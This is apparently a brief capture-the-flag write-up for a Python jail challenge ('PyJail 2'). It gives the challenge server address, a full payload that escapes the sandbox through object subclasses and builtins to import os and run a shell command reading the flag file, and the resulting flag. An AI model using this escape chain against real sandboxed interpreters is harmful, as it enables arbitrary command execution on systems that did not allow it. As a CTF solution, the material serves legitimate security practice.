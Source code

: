 # IncognitoCTF 3.0 - PyJail 2

- Type: jail 
- Level: meduim 
- Points : 100
- link : nc 142.93.209.130 14010`

<center><img src="images/jail2.PNG"></center>


Same substitution problem as before, this time the character I used is `.`

Final chain: `_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](flag, '_._class_._'), '_._bases_._')[0], '_._subclasses_._')()[196](), '_module'), '_._builtins_._')['_._import_._']('os'), 'system')('cat jail2')`

Flag: `ictf{Y0u_D1D_1t_143233689965}`
